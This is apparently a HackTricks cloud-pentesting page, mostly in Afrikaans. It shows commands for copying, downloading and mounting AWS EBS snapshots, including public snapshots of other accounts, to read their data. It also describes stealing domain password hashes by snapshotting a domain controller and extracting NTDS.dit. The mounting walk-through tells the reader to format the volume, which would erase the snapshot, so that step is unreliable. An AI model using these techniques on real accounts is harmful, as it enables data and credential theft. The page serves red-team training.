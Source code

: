 # AWS - EBS Snapshot Dump

<details>

<summary><strong>Leer AWS hakwerk vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Checking a snapshot locally
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Let daarop dat** `dsnap` jou nie sal toelaat om openbare snaphots af te laai nie. Om dit te omseil, kan jy 'n kopie van die snapshot in jou persoonlike rekening maak en dit aflaai:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Vir meer inligting oor hierdie tegniek, kyk na die oorspronklike navorsing op [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Jy kan dit doen met Pacu deur die module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) te gebruik

## Kontroleer 'n afskrif in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Monteer dit in 'n EC2 VM onder jou beheer** (dit moet in dieselfde streek wees as die kopie van die rugsteun):

Stap 1: 'n Nuwe volume van jou verkose grootte en tipe moet geskep word deur na EC2 –> Volumes te gaan.

Om hierdie aksie uit te voer, volg hierdie bevele:

* Skep 'n EBS-volume om aan die EC2-instantie te heg.
* Verseker dat die EBS-volume en die instansie in dieselfde sone is.

Stap 2: Die "heg volume" opsie moet gekies word deur regs te klik op die geskepte volume.

Stap 3: Die instansie moet gekies word uit die instansie tekskas.

Om hierdie aksie uit te voer, gebruik die volgende bevel:

* Heg die EBS-volume.

Stap 4: Teken in op die EC2-instansie en lys die beskikbare skywe deur die bevel `lsblk` te gebruik.

Stap 5: Kontroleer of die volume enige data het deur die bevel `sudo file -s /dev/xvdf` te gebruik.

As die uitset van die bogenoemde bevel "/dev/xvdf: data" toon, beteken dit dat die volume leeg is.

Stap 6: Formateer die volume na die ext4-lêersisteem deur die bevel `sudo mkfs -t ext4 /dev/xvdf` te gebruik. Alternatiewelik kan jy ook die xfs-formaat gebruik deur die bevel `sudo mkfs -t xfs /dev/xvdf` te gebruik. Let asseblief daarop dat jy óf ext4 óf xfs moet gebruik.

Stap 7: Skep 'n gids van jou keuse om die nuwe ext4-volume te monteer. Byvoorbeeld, jy kan die naam "newvolume" gebruik.

Om hierdie aksie uit te voer, gebruik die bevel `sudo mkdir /newvolume`.

Stap 8: Monteer die volume na die "newvolume" gids deur die bevel `sudo mount /dev/xvdf /newvolume/` te gebruik.

Stap 9: Verander die gids na die "newvolume" gids en kontroleer die skyfspasie om die volume-montage te valideer.

Om hierdie aksie uit te voer, gebruik die volgende bevele:

* Verander gids na `/newvolume`.
* Kontroleer die skyfspasie deur die bevel `df -h .` te gebruik. Die uitset van hierdie bevel moet die vrye spasie in die "newvolume" gids toon.

Jy kan dit doen met Pacu deur die module `ebs__explore_snapshots`.

## Kontroleer 'n rugsteun in AWS (deur die cli te gebruik)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Skadukopie

Enige AWS-gebruiker wat die **`EC2:CreateSnapshot`**-permissie besit, kan die hasjies van alle domeingebruikers steel deur 'n **skadu van die domeinbeheerder te skep**, dit aan 'n instansie wat hulle beheer te koppel en **die NTDS.dit en SYSTEM**-registerhive-lêer uit te voer vir gebruik met Impacket se secretsdump projek.

Jy kan hierdie instrument gebruik om die aanval te outomatiseer: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) of jy kan een van die vorige tegnieke gebruik nadat jy 'n skadu geskep het.

## Verwysings

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
